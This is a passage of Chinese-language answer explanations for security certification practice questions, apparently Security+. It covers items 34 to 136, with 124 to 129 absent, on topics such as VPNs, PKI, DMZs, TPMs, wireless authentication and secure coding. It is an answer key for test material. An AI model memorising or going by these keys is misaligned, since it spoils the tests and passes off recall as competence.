- 34. D. 与 `IPSec` 的隧道模式不同，`IPSec` 传输模式允许每个端口采用不同策略。传输模式数据包外部报头中的 IP 地址用于确定应用于该数据包的策略。`IPSec` 没有 `PSK` 模式，但 `WPA-2` 有。`IKE` 用于在 `IPSec` 中建立安全关联，但不允许这种模式设置。

- 35. A. `WPS` 个人识别码（`PIN`）在 2011 年被发现存在问题，当时有人演示了针对 `WPS PIN` 设置模式的实际暴力破解攻击。`WPS` 还存在多种其他安全问题，并且不用于企业安全。出于设置方便的考虑，`WPS` 仍在家用环境中使用。

- 36. C. 在线证书状态协议（`OCSP`）用于确定证书的状态。`RTCP`、`CRBL` 和 `PKCRL` 都是为本题虚构的。

- 37. C. 证书吊销列表（`CRL`）是专门用于吊销证书的。由于公钥是通过证书分发的，这是取消公钥授权的最有效方法。选项 A 不正确。简单通知用户某个密钥/证书不再有效并不有效。选项 B 不正确。删除证书并不总是可能的，而且忽略了存在该证书副本的可能性。选项 D 不正确。注册机构（`RA`）用于创建新证书，而不是吊销证书。

- 38. C. 全球定位系统（`GPS`）数据和本地 `Wi-Fi` 网络数据是帮助地理围栏应用确定其位置的两种最常用协议。当获得或丢失一个已知的 `Wi-Fi` 信号时，地理围栏应用就会知道自己处于该网络的范围内。`GPS` 数据甚至更有用，因为它可以在大多数位置工作并提供准确的位置数据。虽然蓝牙有时用于地理围栏，但其有限的覆盖范围使其只能作为第三选择。蜂窝网络信息需要基于基站的精确三角测量，这意味着它通常不用于地理围栏应用，当然 `USB` 是有线协议。

- 39. A. 隔离区（`DMZ`）是外部防火墙和内部防火墙之间的区域。它专门设计用于放置面向公众的服务器。外部防火墙更为宽松，从而允许公众访问 `DMZ` 中的服务器。然而，内部防火墙更安全，从而阻止外部访问公司网络。

- 40. C. 安全的第一步是强化操作系统，而其中最基本的一个方面就是关闭不需要的服务。无论操作系统是什么，这一点都成立。虽然安装反恶意软件、实施使用策略和设置密码重用策略都是良好做法，但关闭不必要的服务通常是保护系统安全的第一步。

- 41. C. 基于知识的身份验证要求用户才可能知道的信息。示例包括以前的纳税金额、账单金额等信息。要求提供社会安全号码不太安全，而且只对美国用户有效。通过 `Google` 账户进行联合身份验证无法满足这一需求，因为 `Google` 账户没有用户验证要求。最后，验证邮件只能证明用户能够访问他们提供的账户，而不能证明他们是特定的个人。

- 42. A. 当易用性很重要且 Web 应用是主要使用模式时，通常选择传输层安全（`TLS`）`VPN`。`IPSec` `VPN` 用于站点到站点 `VPN`，以及可能需要其他协议的场景，因为它们使终端系统看起来像是在远程网络上。

- 43. A. 全磁盘加密（`FDE`）会完全加密计算机上的硬盘。这是确保计算机上数据安全的一种有效方法。可信平台模块（`TPM`）用于存储密钥，并用于启动完整性和其他加密需求，不会直接保护数据。软件定义网络（`SDN`）是虚拟化网络，隔离区（`DMZ`）用于对网络进行分段，不会影响此问题。

- 44. A. 隔离区（`DMZ`）允许外部用户有限地访问面向公众的服务器，但阻止外部用户访问 `LAN` 内的系统。将 Web 服务器放在 `DMZ` 中是一种常见做法。虚拟局域网（`VLAN`）最常用于对内部网络进行分段，路由器根据 IP 地址转发流量，而访客网络允许非员工的内部用户访问互联网。

- 45. D. 身份属性是身份的特征，包括个人的出生日期、年龄、职务、地址或关于身份的大量其他详细信息。它们用于将该身份与其他身份区分开来，也可由身份管理系统或连接的系统与该身份协同使用。角色描述个人在组织中的工作或职位，而因素是你知道的东西、你拥有的东西或你自身的东西。标识符并不是常见的安全或身份验证术语，尽管身份是。

- 46. D. 系统证书的 `CN`（通用名称）通常是服务器的完全限定域名（`FQDN`）。如果 `Megan` 是为自己而不是为服务器请求证书，她会使用自己的全名。

- 47. B. 对网络进行物理分区是虚拟局域网（`VLAN`）的物理等价物。`VLAN` 旨在模拟物理分区。边界安全不会对网络进行分段

网络本身。安全区很有用，但并不能靠自身来划分网络。通常，网络会通过物理分区或 `VLAN` 进行分段，以创建安全区。防火墙的目的是阻止某些流量，而不是划分网络，尽管防火墙可以作为分段或安全区实现的一部分。

#### 48. D.

`Nelson` 正在使用白名单工具。这类工具只允许特定的应用程序在系统上安装和运行，并且通常使用已知良好应用程序的哈希值来确保这些应用程序是经过许可的。黑名单工具则阻止特定的应用程序或文件被使用、存储或下载到系统中。虽然防病毒和反恶意软件工具可能具有类似的功能，但此处最准确的答案是白名单。

#### 49. B.

状态检测防火墙会检查所遇到的每个数据包的内容和上下文。这意味着状态数据包检测（`SPI`）防火墙能够理解来自同一 IP 地址的前序数据包，从而理解通信的上下文。这使得某些攻击（如 `SYN` 洪水）几乎不可能发生。数据包过滤防火墙会检查每个数据包，但不检查上下文。应用层防火墙可以使用 `SPI` 或简单的数据包过滤，但其主要作用是检查特定于应用的问题。一个常见的例子是 Web 应用防火墙。网关防火墙仅仅是位于网络网关处的防火墙。这并不能说明它是数据包过滤还是 `SPI`。

#### 50. A.

无线网络热图用于显示无线网络信号在整个建筑物或地点内的强度。`Scott` 可以使用这样的热图来查看无线信号在哪里衰减或可能在哪里发生干扰。网络图显示的是网络的逻辑布局。非军事区（`DMZ`）是一个暴露于更高风险区域的网络安全区，而区域图并不是常见的安全术语。

#### 51. B.

非军事区（`DMZ`）是连接到独立路由器接口的单独子网。公共流量可以被允许从外部公共接口传递到 `DMZ`，但不会被允许传递到连接内部专用网络的接口。访客网络为访客提供互联网访问。内联网由内部 Web 资源组成。公司经常发布只有从网络内部才能访问的网页，用于人力资源通知、休假申请等。虚拟局域网（`VLAN`）用于对内部网络进行分段。

#### 52. C.

该应用程序包含输入验证技术，用于确保意外或恶意的输入不会对应用程序造成问题。输入验证技术会剥离控制字符、验证数据，并执行各种其他操作，以便在应用程序处理或存储输入之前对其进行清理。这种验证可能有助于防止缓冲区溢出，但此处描述的其他技术并不用于防止缓冲区溢出。字符串注入实际上正是这种验证有助于防止的问题，而模式验证检查数据以确保请求符合模式，但同样，这比描述中所涵盖的广泛输入验证范围要狭窄。

#### 53. C.

`WPA3` 支持 `SAE`，即对等实体同时认证，提供了一种更安全的认证方式，限制了暴力攻击的可能性，并允许个人使用不同的密码。`WPA` 不如 `WPA2` 安全，而 `WEP` 是最古老、最不安全的无线安全协议。

#### 54. A.

为了阻止攻击流量，`IPS` 需要以内联方式部署。使用网络分流器的部署会收到数据副本，但不会处于流量路径中，这使得它们非常适合检测，但无法阻止流量。部署为入侵检测系统（`IDS`）而不是 `IPS`，意味着系统只能检测攻击，而不能阻止攻击。

#### 55. B.

正确答案是使用沙盒环境测试恶意软件并确定其完整功能。沙盒系统可以是隔离的虚拟机（`VM`），也可以是完全与网络隔离的实际物理机。将恶意软件留在生产系统上绝不是正确的做法。您应该测试或分析恶意软件，以确定它到底是什么恶意软件，从而能够正确地应对威胁。蜜罐用于诱捕攻击者，而不是用于测试恶意软件。

#### 56. B.


加固是提高操作系统或应用程序安全性的过程。加固可信操作系统的主要方法之一是消除不需要的协议。这也称为创建允许操作系统安全可靠运行的安全基线。`FDE` 是全盘加密，`SED` 是自加密驱动器，而基线化是建立安全标准的过程。

#### 57. C.

尽管用户会收到警告，因此对网站的信任可能会降低，但实际的基础加密能力不会改变。用户不会被重定向到证书颁发机构的网站，如果他们忽略警告继续操作，用户将能够正常继续使用加密连接。

#### 58. D.

`Isaac` 知道，信任客户端系统是安全的不是一个好主意，因此确保在受信任的客户端上进行验证并不是一个合适的建议。确保在受信任的服务器上进行验证、验证客户端数据，以及确保数据类型和范围合理，都是他应该推荐的良好实践。

#### 59. C.

可信平台模块（`TPM`）提供随机数生成器、生成加密密钥的能力、支持启动过程中的远程证明，以及绑定和封装功能。它们不会充当加密处理器来加速安全套接字层（`SSL`）或传输层安全性（`TLS`）流量。

#### 60. B.

哈希通常用于数据库中，以提高索引和检索的速度，因为搜索哈希键通常比搜索数据库中存储的原始值更快。哈希不是一种加密形式，这意味着它不用于加密存储的数据。哈希不用于混淆数据或替代敏感数据。

#### 61. C.

正确答案是仅允许在浏览器中加载已签名的组件。代码签名验证组件的来源（例如 `ActiveX` 组件），从而使恶意软件的可能性大大降低。尽管基于主机的反恶意软件是一个好主意，但它并不是针对这种特定威胁的最佳补救措施。黑名单无法覆盖所有被感染的网站——只能覆盖您已知的网站。而且，由于 `Hans` 网络上的用户访问大量网站，黑名单很可能无效。最后，如果您阻止所有活动内容，许多网站将完全无法使用。

#### 62. B.

`Zarmeena` 已实施了预共享密钥（`PSK`）认证方法。这意味着如果她因为员工离职而需要更改密钥，她将需要让每个设备更新其密码。对于较大的部署，企业认证可以连接到认证和授权服务，允许每个用户以自身身份进行认证。这也为网络管理员提供了一种通过已认证用户来识别单个设备的方法。开放网络不需要认证，但可以使用强制门户要求网络用户在连接互联网之前提供信息。

#### 63. A.

`EAP-FAST` 专为希望快速完成部署的组织而设计，并且不需要在终端设备上安装证书。`EAP` 隧道传输层安全性（`EAP-TTLS`）需要客户端证书；`EAP-TLS` 需要相互认证，这可能较慢；受保护的可扩展认证协议（`PEAP`）与 `EAP-TTLS` 类似。

#### 64. A.

正确答案是实施虚拟桌面基础设施（`VDI`）。如果所有桌面都已虚拟化，那么就可以从一个中心位置管理补丁、配置和软件安装。这一单一实施将解决问题中提到的所有问题。限制性策略是个好主意，但往往难以执行。对工作站进行镜像只会影响其原始配置；这不会让它们保持修补状态，也不会阻止安装恶意软件。最后，强大的补丁管理只会解决三个问题中的一个。

#### 65. B.

部署到多个位置是高可用性策略的一部分，该策略确保丢失单个区域中的一个或多个数据中心，或与该区域的网络连接丢失，不会使基础设施瘫痪。这并不能提供更强的抵御内部攻击的能力、更低的成本或供应商多样性。

#### 66. B.

基于 `TLS` 的 `VPN`（通常称为基于 `SSL` 的 `VPN`，尽管 `SSL` 已经过时）为用户使用 `VPN` 提供了最简便的方式，因为它不需要客户端。`SSL VPN` 也只适用于特定应用程序，而不是让系统看起来完全位于远程网络上。`HTML5` 不是 `VPN` 技术，但某些 `VPN` 门户可能使用 `HTML5` 构建。安全断言标记语言（`SAML`）不是 `VPN` 技术。`IPsec VPN` 需要客户端或配置，因此在大多数情况下对最终用户来说更难使用。

#### 67. C.

这些特定的 Web 应用程序攻击最好通过适当的输入验证来缓解。任何用户输入都应检查是否存在跨站脚本（`XSS`）或 `SQL` 注入的迹象。错误处理始终很重要，但它不会缓解这些特定的问题。存储过程可以是确保 `SQL` 命令标准化的一种好方法，但这不会阻止这些攻击。代码签名用于从 Web 应用程序下载到客户端计算机的代码；它用于保护客户端，而不是 Web 应用程序。

#### 68. C.

`Isaac` 可以配置一个地理围栏，定义其公司大楼和园区。然后，他可以设置一个地理围栏策略，只允许设备在该地理围栏区域内工作。补丁管理、`IP` 过滤和网络限制都不是适合此问题的解决方案。

#### 69. B.

模糊测试是一种技术，测试人员故意在输入字段中输入不正确的值，以观察应用程序将如何处理。静态代码分析工具只是扫描代码以查找已知问题，基线化是建立安全标准的过程，而版本控制只是跟踪代码中的更改——它不会测试代码。

#### 70. B.

尽管硬件安全模块（`HSMs`）提供许多加密功能，但它们不用于启动证明。`TPM`，即可信平台模块，用于安全启动证明。

#### 71. A.

`Cynthia` 应该部署射频识别（`RFID`）卡，可使用非接触式读卡器读取。`RFID` 技术常见且相对便宜，但如果没有额外的身份验证，持有卡片是判断某人是否有权进入建筑物或房间的唯一手段。`Wi-Fi` 因功耗和开销问题不用于非接触式卡片。磁条需要读卡器而不是非接触式，`HOTP` 是一种一次性密码系统。

#### 72. B.

速率限制和退避算法都限制了查询可以执行的速度。要求身份验证会限制谁可以访问目录。要求使用 `LDAPS`（`SSL` 上的轻量级目录访问协议）并不能防止枚举，但它确实为查询信息在网络中传输时提供了安全性。

#### 73. D.

`SAN`，即主题备用名称证书，允许多个主机名由同一证书保护。它不是 `SAN` 存储系统的证书类型。`SAN` 证书可以是自签名的，但这并不使其成为 `SAN` 证书，当然安全组织 `SANS` 并不是证书颁发机构。

#### 74. A.

正确答案是将数字证书分配给授权用户，并在登录时使用这些证书对他们进行身份验证。这是一种有效的方式，确保只有授权用户可以访问应用程序。虽然其余选项都是良好的安全措施，但它们并不是验证客户端和防止未经授权访问应用程序的最佳方式。

#### 75. D.

正确答案是首先测试补丁。补丁可能会导致一个或多个当前应用程序出现问题，这始终是有可能的。对于与主机操作系统交互较多的应用程序尤其令人担忧。操作系统补丁可能会阻止应用程序正常执行。但是一旦补丁经过测试，就应开始分阶段向公司推广。在企业环境中不建议自动修补，因为补丁可能会干扰一个或多个应用程序——因此实施了需要更多管理时间的受管补丁部署流程，但避免了因补丁在组织特定环境中存在问题而导致的停机。让个人用户自行修补自己的机器是个坏主意，会导致修补不一致以及应用未经测试的补丁。将补丁管理委托给经理而不是 `IT` 人员也会导致问题，因为技能和做法各不相同。

#### 76. B.

尽管无线分析仪提供有关服务集标识符（`SSIDs`）、信号强度和协议版本的深入信息，但后端身份验证服务器的远程身份验证拨入用户服务（`RADIUS`）或 `Kerberos` 版本号通常不是它们能够提供的信息。

#### 77. B.

正确答案是关闭对此类设备不绝对需要的任何远程访问。许多外围设备都带有 `SSH`（安全 `Shell`）、`Telnet` 或类似服务。如果您未使用它们，请将其关闭。许多外围设备没有磁盘可加密，使得全盘加密（`FDE`）不太有用。模糊测试用于测试代码而不是设备，而且在大多数情况下外围设备不太可能支持数字证书。

#### 78. C.

手工代码审查是一种静态代码审查类型，审查人员阅读源代码以尝试查找代码中的缺陷。动态代码审查需要运行代码，`Fagan` 测试是一种正式的代码审查流程，贯穿开发过程的多个阶段，而模糊测试是一种动态检查形式，向正在运行的程序发送意外值。

#### 79. C.

`Samantha` 应该将她的公钥 `SSH` 密钥放在远程服务器上其主目录中的 `.ssh` 目录中。私钥绝不应脱离您的控制，并且与许多 `Linux` 配置不同，`SSH` 密钥不会保存在 `/etc/` 目录中。

#### 80. C.

正确答案是使用静态代码分析。内存泄漏通常是由未能释放已分配的内存引起的。静态代码分析器可以检查所有内存分配命令（`malloc`、`alloc` 等）是否都有匹配的释放命令。模糊测试涉及输入超出预期值的数据以查看应用程序如何处理它。压力测试涉及测试系统如何处理极端工作负载。规范化是一种用于数据库去重技术。

#### 81. D.

负载均衡器提供虚拟 `IP`，或 `VIP`。发送到 `VIP` 的流量根据该池使用的负载均衡方案被定向到池中的服务器——通常是轮询方案，但还包括优先级顺序和容量跟踪或评级的其他版本也很常见。负载均衡器的 `IP` 地址通常用于管理系统，而集群主机的单个 `IP` 地址被负载均衡器屏蔽，以防止流量持续流向这些主机，从而造成故障或负载点。

#### 82. D.

在实现良好的密码哈希方案中，在密码被哈希之前，会向每个密码添加称为盐的唯一随机位。这使得生成彩虹表或以其他方式暴力破解数据库中存储的所有密码的哈希变得极其耗时。其余选项是编造的，不是实际的安全术语。

#### 83. A.

正确答案是使用安全 `Shell`（`SSH`）。该协议是加密的。`SSH` 还使用公钥加密对用户进行身份验证。`Telnet` 不安全且不加密数据。`RSH`，即远程 `Shell`，至少发送部分未加密数据且也不安全。`SNMP`，即简单网络管理协议，用于管理网络，不用于远程通信。

#### 84. A.

基于资源的策略附加到资源上，并确定谁有权访问资源，例如一组系统管理员或开发人员，以及他们可以在资源上执行哪些操作。云服务对监控其资源使用有不同的术语；这些术语可能因服务而异。

#### 85. A.

网络化传感器设备部署在许多数据中心，用于收集温度和湿度信息作为环境监控系统的一部分。火灾探测和抑制系统通常不会安装在机架中，而电力质量和可靠性由 `PDU`（电源分配单元）、`UPS`（不间断电源）和其它电力基础设施来测量。

#### 86. C.

安全 `IMAP` 的默认端口是 `TCP 993`。`Laurel` 可以很容易猜到系统为客户端提供 `TLS` 保护的 `IMAP` 版本以用于检索电子邮件消息。安全 `POP` 的默认端口是 `995`，安全 `SMTP` 的默认端口是 `587`。`S/MIME` 没有特定端口，因为它用于加密电子邮件消息的内容。

#### 87. C.

`Ad hoc` 无线网络采用点对点拓扑。基础设施模式接入点工作在点对多点拓扑。星型和总线模型用于有线网络。

#### 88. C.

仅使用数字签名的代码可验证软件的创建者。例如，如果打印机/多功能设备（`MFD`）驱动程序是数字签名的，这会让您确信它确实是声称来自的厂商的打印机驱动程序，而不是伪装成打印机驱动程序的恶意软件。签名软件让您对它不是恶意软件有高度信心，但并不能提供保证。例如臭名昭著的 `Flame` 病毒就是用被攻破的 `Microsoft` 数字证书签名的。软件的数字签名对补丁管理没有影响。最后，数字签名的软件执行速度不会比未签名的软件快或慢。

#### 89. D.

`Security+` 考试将密码管理器称为密码库。`Samantha` 应该推荐一个密码库，允许她的用户安全地生成、存储和使用许多密码。其余选项都不是关于密码使用和存储的良好建议。

#### 90. A.

端口安全按 `MAC` 地址过滤，允许白名单 `MAC` 地址连接到端口并阻止黑名单 `MAC` 地址。端口安全可以是静态的，使用预定列表或动态允许特定数量的地址连接，也可以以静态和动态模式的组合模式运行。

#### 91. C.

身份验证头（`AHs`）提供完整的报文完整性，对报文和报头进行身份验证。身份验证头根本不提供任何加密，并且身份验证头对整个报文进行身份验证，而不仅仅是报头。

#### 92. B.

分裂视界 `DNS` 实现为两个或多个环境部署不同的 `DNS` 服务器，确保这些环境接收与其客户端应接收的 `DNS` 视图相适应的 `DNS` 信息。域名系统安全扩展（`DNSSEC`）是一组 `DNS` 安全规范，用于帮助保护 `DNS` 数据。`DMZ DNS` 和 `DNS` 代理不是安全或网络领域中使用的设计模式或常用术语。

#### 93. A.

网络分流器将所有流量复制到另一个目的地，允许在没有设备内联的情况下进行流量可见性。它们是将网络流量传递到中央位置的完全被动方法。端口镜像可以将所有流量发送到基于网络的入侵防御系统（`NIPS`），但并非完全被动。它需要使用交换机上的资源来路由流量的副本。不正确的交换机配置可能导致环路。配置环路检测可以防止环路端口。将网络 `IPS` 部署在每个段上可能非常昂贵并需要大量的配置工作。选项 `D` 不正确。这不是分配。在每个段上设置 `NIPS` 也会大幅增加管理工作。

#### 94. C.

联邦化 `RADIUS` 允许组织允许来自其他合作组织的用户在其家庭系统上进行身份验证，然后被允许访问本地组织的网络。其示例是高等教育机构使用的 `eduroam` 联邦，允许学生在 `eduroam` 覆盖的任何地方使用大学网络。预共享密钥由位置组织确定，不会允许使用来自其他组织的企业凭据。`OpenID` 用于 Web 身份验证，`802.1Q` 是中继协议。

#### 95. C.

上下文感知认证可以考虑诸如地理位置等信息，以确保设备只能在设施边界内登录。那意味着设备只能在现场使用，并且可以帮助保护设备上的数据和应用程序。`PIN` 码和生物识别都无法做到这一点，而内容感知认证是为这个问题编造的。

#### 96. B.

`TPM`，即可信平台模块，是一种安全密码处理器，用于为系统提供硬件信任根。它们支持安全启动和启动证明功能，并包括随机数生成器、为特定用途生成加密密钥的能力，以及绑定和密封 `TPM` 支持的进程所使用数据的能力。

#### 97. B.

互联网密钥交换（`IKE`）用于在隧道的每一端设置安全关联（`SAs`）。安全关联包含隧道的全部设置（即加密算法、哈希）。`IKE` 不直接参与加密或身份验证。`IKE` 本身并不建立隧道——它建立的是 `SAs`。

#### 98. A.

根证书是签署整个证书链的基础证书。保护这些极其重要的证书的常见安全做法是让根证书和 `CA` 离线，以防止被入侵或泄露的风险。机器/计算机、用户和电子邮件证书在组织中部署并频繁使用，因此不太可能保持离线。

#### 99. A.

`NIPS` 看不到该网络段上的流量。通过实施端口镜像，可以将该段的流量复制到 `NIPS` 安装所在的段。在该段安装网络 `IPS` 需要额外的资源。这可行，但不是最有效的方法。此场景中没有任何内容表明 `NIPS` 不够用。它只是看不到所有流量。最后，将该段隔离到自己的 `VLAN` 会隔离该网络段，但仍不会允许 `NIPS` 分析该段的流量。

#### 100. B.

令牌化通过用令牌替换敏感数据来保护数据，而不改变长度或数据类型。这允许数据库以令牌化之前的方式处理数据，确保现有软件不会因数据更改而出现问题。加密提供类似的保护，但通常会改变数据长度、数据类型或两者。哈希是单向的，这意味着它不适合令牌化或加密可以保护数据的许多场景。轮换不是用于此类工作的安全方法。

#### 101. A.

`Eleonora` 可以在每个位置部署日志聚合器来收集和汇总日志。日志收集和聚合系统随后可以过滤不需要的日志条目、压缩日志，并将所需日志转发到中央安全系统，如安全信息和事件管理（`SIEM`）或其他日志分析收集和分析工具。蜜罐充当理想目标，引诱攻击者进入以捕获其攻击数据。堡垒主机旨在抵御攻击，通常为其所在网络提供单一服务。

#### 102. D.

模糊测试是一种自动化的动态软件测试技术，向程序发送意外且通常无效的数据以测试其响应方式。软件会被监控以查看其对输入的响应，从而提供额外的保证，即程序内置了适当的错误处理和输入验证。时间盒是敏捷项目管理技术；缓冲区溢出可能作为模糊测试的一部分发生，但不是此处使用的或描述的唯一技术；输入验证可以通过防止越界或不需要的数据被接受来帮助阻止模糊测试对应用程序造成问题。

#### 103. B.

动态主机配置协议（`DHCP`）嗅探可以在交换机上设置以监控并阻止来自未知服务器的 `rogue DHCP` 流量。禁用 `DHCP` 嗅探将移除此功能。入侵检测系统（`IDS`）无法阻止流量，而阻止 `DHCP` 流量将阻止系统获取动态 `IP` 地址。

#### 104. B.

端点检测和响应（`EDR`）专注于识别异常和问题，但它并非设计为恶意软件分析工具。相反，搜索和探索数据、识别可疑活动以及协调响应的能力构成了 `EDR` 工具。

#### 105. A.

Web 代理可用于阻止某些网站。网络管理员阻止单个站点或站点通用类别（如求职网站）的做法很常见。网络地址转换（`NAT`）用于将内部计算机的私有 `IP` 地址转换为公共 `IP` 地址。数据包过滤防火墙可以阻止特定端口或 `IP` 地址或使用特定协议的流量，但通常无法阻止特定网站。基于网络的入侵防御系统（`NIPS`）识别并阻止攻击；它们无法阻止用户访问特定网站。

#### 106. C.

密钥管理服务提供存储敏感数据（如应用程序编程接口（`API`）密钥、密码和证书）的能力。它们还提供管理、检索和审计这些密钥的能力。公钥基础设施（`PKI`）将专注于证书和加密密钥，而不包括密码或 `API` 密钥。可信平台模块（`TPM`）与硬件相关联，而哈希服务是为这个问题编造的。

#### 107. A.

`SAML`，即安全断言标记语言，被许多身份提供者用于与服务提供者交换授权和身份验证数据。`Kerberos` 和 `LDAP`（轻量级目录访问协议）在许多组织内部使用，但 `Fred` 在流行 Web 服务中使用 `SAML` 会取得更大成功。新技术 `LAN` 管理器（`NTLM`）在 `Windows` 系统中仍在使用，但 `Kerberos` 在现代 `Windows` 域中更常用，在此处描述的场景中不会使用。

#### 108. D.

对集群进行负载均衡将防止任何单个服务器过载。如果某个服务器离线，其他服务器可以承担其工作负载。选项 `A` 不正确。`VPN` 集中器顾名思义用于启动虚拟专用网络（`VPN`）。选项 `B` 不正确。聚合交换可以将更多带宽分流到服务器，但不会缓解一个或多个服务器离线的威胁。选项 `C` 不正确。`SSL` 加速器是将传输层安全（`TLS`）和安全套接层（`SSL`）的处理器密集型公钥加密卸载到硬件加速器的方法。

#### 109. C.

不重叠的三个信道是 `1`、`6` 和 `11`。其余信道会重叠。在理想的安装中，这三个信道可用于最大化吞吐量并最小化干扰。

#### 110. B.

正确答案是使用传输层安全（`TLS`）加密到此应用程序的所有 Web 流量。这是针对任何网站最基本的安全措施之一。Web 应用防火墙（`WAF`）可能是一个好主意，但不是 `Ryan` 最需要实施的东西。虽然基于网络的入侵防御系统（`IPS`）或入侵检测系统（`IDS`）可能是一个好主意，但应在配置 `TLS` 后再考虑。

#### 111. B.

红外线（`IR`）是列表中唯一的视线方法。尽管近场通信（`NFC`）和蓝牙的范围相对较短，但它们仍可穿过放置在它们和接收器之间的材料工作，而 `Wi-Fi` 甚至可以在更长的范围内做到这一点。

#### 112. A.

正确答案是 `Kerberos` 使用各种票据，每张都有时间限制。服务票据通常只能使用 `5` 分钟或更短。这意味着如果网络时间协议（`NTP`）出现故障，有效票据可能看起来已过期。`RADIUS`、`CHAP` 和 `LDAP` 不会因 `NTP` 故障而产生任何显著影响。


113. C. 正确答案是挑战握手身份验证协议（`CHAP`）会定期要求客户端重新进行身份验证。这对用户是透明的，但专门用于防止会话劫持。密码身份验证协议（`PAP`）实际上相当老旧且不重新验证。事实上，它甚至以明文发送密码，因此不应再使用。`SPAP`（Shiva 密码身份验证协议）在 `PAP` 上增加了密码加密，但不重新验证。`OAuth` 用于 Web 身份验证且不重新验证。

114. B. 软件防火墙最适合部署到单台机器，特别是当保护端点系统时。硬件防火墙通常部署以保护网络段或系统组，并导致额外的费用和管理。虚拟和云防火墙最常部署在数据中心，其中使用虚拟或云环境，尽管虚拟防火墙也可以在端点上运行。

115. D. 在此场景中，服务账户是最合适的。服务账户被授予服务所需的最低权限，并由服务使用，无需人工用户。虽然可以分配用户账户，但使用服务账户是更好的解决方案。访客账户永远不是服务的明智选择。访客账户通常限制太多。禁用默认账户（如访客账户）是常见做法。管理员账户会给服务太多权限，违反最小权限原则。

116. A. 在这些可扩展身份验证协议（`EAP`）版本中，只有轻量级可扩展身份验证协议（`LEAP`）不支持 TLS。可扩展身份验证协议隧道传输层安全（`EAP-TTLS`）实际上扩展了 TLS，但支持底层协议。受保护的可扩展身份验证协议（`PEAP`）在加密的 TLS 隧道内封装 `EAP`。

117. C. 越狱允许用户向 iPhone 添加通常不被允许的软件，包括第三方应用、更改系统设置、主题或默认应用。第三方应用商店默认不可用；iOS 确实可以实现侧载，但这无法实现 Manny 想要的效果；当然，安装 Android 也不能让 Manny 更改 iOS 设置。如果 Manny 真的越狱了他的手机，他的组织如果使用移动设备管理（`MDM`）或统一端点管理（`UEM`）应用来跟踪设备状态，可能会发现这一点。

118. C. 许多智能卡实现了射频识别（`RFID`），以便用于门禁访问和其他用途。`Wi-Fi`、红外和蓝牙通常需要带电电路才能与系统交互，因此它们不适合通常没有电池或其他电源的智能卡。

119. A. 强制访问控制（`MAC`）是正确的解决方案。它甚至不允许低权限用户查看更高权限级别的数据。自主访问控制（`DAC`）由每个数据所有者自行配置自己的安全设置。基于角色的访问控制（`RBAC`）可以配置为满足这些需求，但并不是这些需求的最佳解决方案。安全断言标记语言（`SAML`）不是一种访问控制模型。

120. B. 基于代理的准入前系统将通过代理更深入地了解系统配置；采用准入前模型可以在系统获准连接网络之前测试系统配置。无代理网络访问控制（`NAC`）使用扫描和/或网络清单技术，通常无法对系统配置和正在运行的软件版本进行同样深入的了解。准入后系统根据用户获得网络准入后的行为做出强制决策，而不是在获得准入之前，因此可以让你快速排除其中两个选项。

121. C. Claire 的最佳选择是通过她的 Web 应用防火墙（`WAF`）部署检测和修复措施，以检测并阻止 SQL 注入尝试。入侵检测系统（`IDS`）只能检测攻击，无法阻止攻击。对应用程序代码进行逆向工程后手动更新需要时间，而且她甚至可能没有源代码或修改能力。最后，即使情况最好，供应商为零日漏洞发布补丁通常也需要一些时间，这意味着如果 Claire 选择该选项，她可能还要等很久才能拿到补丁。

122. C. `CYOD`，即“选择你自己的设备”，允许用户选择由企业拥有并付费的设备。选择范围可能限于一组设备，也可能允许用户根据组织的部署决策选择几乎任何设备。`BYOD` 允许用户自带设备，而 `COPE`（企业所有、个人启用）则向用户提供设备，供其个人使用。`VDI` 使用虚拟桌面基础架构作为访问层，适用于任何因专门需求或安全要求而可能需要访问远程桌面或应用服务的安全模型。

123. B. 这里的关键在于证书颁发机构（`CA`）以网状结构运行，这意味着没有一个是根 `CA`，每个 `CA` 都必须信任其他 `CA`。要实现这一点，Derek 首先需要从 `D` 向其他每个 `CA` 颁发证书，然后让其他 `CA` 向 `D` 颁发证书。私钥绝不应交换；当然，如果他只让其他系统向 `D` 颁发证书，它们不会识别他的服务器。

130. C. 应用的成本和安全实现的质量可能因供应商和产品而异，但云原生安全解决方案通常比第三方解决方案更深入、更紧密地集成到云平台中。设计中的供应商多样性仍可能推动其他选择，但这些都是有意识的设计决策。

131. D. 跳板机是为具有不同安全配置的网络提供访问的常见解决方案。在这种情况下，Ed 可以在隔离区（`DMZ`）中部署一台跳板机，使管理区内的用户能够执行管理任务，而无需直接连接到暴露于外部的 `DMZ`。这有助于保证管理系统的安全，并使他能够专注于跳板机的安全性，同时也便于监控和维护。入侵防御系统（`IPS`）用于监控和阻止不需要的流量，但不用于远程访问。`NAT` 网关执行网络地址转换，部署在网络之间，但通常不用于提供网络之间的安全连接。相反，它用于减少使用的公共 IP 地址数量，并为其后的系统提供有限的安全性。路由器用于连接网络，但不用于提供题目所述的安全访问。

132. C. `OAuth`（开放授权）是一种基于令牌的互联网身份验证和授权开放标准，允许第三方服务使用最终用户的账户信息，而无需暴露用户的密码。`Kerberos` 是一种网络身份验证协议，不用于跨域/服务身份验证。安全断言标记语言（`SAML`）是一种基于 XML 的开放标准数据格式，用于在各方之间交换身份验证和授权数据。`OpenID` 是一种通常由第三方提供的身份验证服务，可用于登录任何接受 `OpenID` 的网站。这种方案可能可行，但仅适用于支持 `OpenID` 的网站，因此不如 `OAuth` 解决方案好。

133. A. 会话保持确保客户端在事务或会话期间的所有流量都发送到同一台服务器或服务。其余选项没有正确描述会话保持的工作原理。

134. B. 数据丢失防护（`DLP`）工具允许对敏感数据进行标记和监控，因此，如果用户试图发送这些数据，用户会收到通知，管理员也会被告知，并在必要时在数据发送前使用加密或其他保护方法对数据进行保护。全盘加密（`FDE`）可以保护静态数据，`S/MIME` 和 `POP3S` 可以保护从服务器检索的邮件，但都无法阻止社会安全号码（`SSN`）被发送出去。

135. B. 虽然基础设施即服务（`IaaS`）供应商通常为高可用性提供强大支持，包括复制到多个地理区域或地区，以及高度可靠和安全的存储，但在大多数情况下，他们不允许直接访问底层硬件。如果 Jennifer 需要直接访问硬件，她需要部署到能够保留物理服务器访问权限的数据中心。

136. B. 带外（`OOB`）管理使用独立的管理接口（如图所示），或使用与正常连接不同的连接方式，以提供安全的管理系统手段。`DMZ`（隔离区）是一个通常暴露于外部的安全区域，因此受信任程度较低，暴露面更大。带内管理使用安全外壳（`SSH`）或 `HTTPS` 等常用协议，通过设备的正常接口或网络连接进行管理。传输层安全（`TLS`）是一种安全协议，而不是管理接口。

